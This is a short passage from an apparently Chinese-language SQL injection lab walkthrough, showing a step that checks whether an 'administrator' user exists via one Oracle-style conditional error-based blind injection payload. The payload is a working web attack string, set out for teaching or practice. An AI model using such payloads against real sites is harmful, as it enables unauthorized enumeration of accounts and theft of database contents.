 ![img](assets/%E5%9B%BE%E7%89%87%2062.png) 

### 2.13.5. **判断是否存在administrator用户**

通过页面返回正常，可以看出是存在administrator用户的。

```
payload：'||(select case when (1=2) then to_char(1/0) else '' end from users where username='administrator')||'
```
